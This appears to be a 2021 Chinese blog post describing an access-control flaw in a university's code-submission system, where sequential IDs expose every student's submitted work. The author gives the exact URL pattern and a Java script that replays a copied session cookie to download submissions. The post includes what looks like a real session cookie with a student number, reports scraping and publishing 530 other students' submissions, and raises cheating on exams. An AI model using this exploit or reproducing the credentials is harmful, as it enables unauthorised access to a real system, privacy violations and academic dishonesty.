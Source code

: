 ---
title: "云测评"
date: 2021-09-20T15:57:28+08:00
draft: false
--
# 怎么还有人用码图啊



很久以前发现在浏览器里直接粘贴url就能自动下载码图提交的文件。而且是没有权限的，意味着你能下载到所有码图提交。而且对于请求次数也是没有限制的。

比如在已经登录码图的浏览器中复制这个url：http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038358

浏览器就会自动下载这个文件。

这时候就有人好奇了，把assignmentid改成1038357会怎么样？会下载到另一个人的提交，这一个提交是在你之前的最近一个提交。

最早的提交我看到id=72650，是2015年9月10号的提交，来自学号20140601xxxx的学长，题目是20_生成前n个自然数的一个随机置换。

那么能不能把所有的码图提交都下载下来呢？只要借助一个叫Open multiple url at one click的chrome插件，将你所想要下载的码图文件url贴进去，chrome就会给你下载了。

那么，假如我没有登录matu怎么办，或者我没有浏览器怎么办，又或是我能不能把码图的所有提交下载下来呢？

那应该怎么做呢，码图会拦截没有登录的请求，这时就要用cookies骗过matu了，借助代理软件，可以看到

get请求会带header，其中有cookie字段

```
Cookie:	JSESSIONID=ADCFAD008D39D46910DB82255253AD2E; III_EXPT_FILE=aa48738; III_SESSION_ID=d55956838bd4bf7c44eae6dbedc5d20a; SESSION_LANGUAGE=eng; zg_did=%7B%22did%22%3A%20%221784dfce5e2433-04d99af797b1f2-5771133-fa000-1784dfce5e3d03%22%7D; zg_=%7B%22sid%22%3A%201625496021694%2C%22updated%22%3A%201625496021698%2C%22info%22%3A%201625496021697%2C%22superProperty%22%3A%20%22%7B%7D%22%2C%22platform%22%3A%20%22%7B%7D%22%2C%22utm%22%3A%20%22%7B%7D%22%2C%22referrerDomain%22%3A%20%22eportal.uestc.edu.cn%22%2C%22cuid%22%3A%20%222019081305013%22%2C%22zs%22%3A%200%2C%22sc%22%3A%200%2C%22firstScreen%22%3A%201625496021694%7D; iPlanetDirectoryPro=tH0Ds91VHf5CpQJkwG4p3v
```

只要在请求头加上这个字段，就可以骗过拦截器了。

写了一个java程序

```Java
package matudownload;

import com.sun.net.httpserver.Headers;
import org.jsoup.Connection;
import org.jsoup.Jsoup;
import org.jsoup.nodes.Document;
import org.jsoup.nodes.Element;

import java.io.*;

public class downLoad {
    public static void download(String url,String filepath,String cookie)throws Exception {

            Connection con=Jsoup.connect(url);
            con.header("Cookie",cookie);
            Connection.Response res=con.method(Connection.Method.GET).execute();
         
            String head=res.header("content-disposition");
            String str=new String(head1.getBytes("ISO-8859-1"),"GBK");
            //注意http请求的header要求其中文必须为iso8859-1编码，此时需要转化成gbk编码
            str=str.toString().substring(21,str.length()-1);

            BufferedWriter bw = new BufferedWriter
                    (new OutputStreamWriter(new FileOutputStream(filepath)));
             bw.write(new String(res.body().toString()));
            bw.flush();
            bw.close();   
    }
   
    public static void main(String[] args) {
        try {
         String cookie="";
           //cookie需要你从已登陆matu的浏览器中获取 download("http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038000","D:/download",cookie);    
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



我在github仓库上传了1038000-1038530的530个提交，大家可以参考别人的matu提交代码互相学习。

https://github.com/BachWV/matu/tree/main/allMatuCommit





至于部分码图考试能不能用这种方法抄到别人的提交，我不知道，也希望码图早日把这个漏洞给补上。

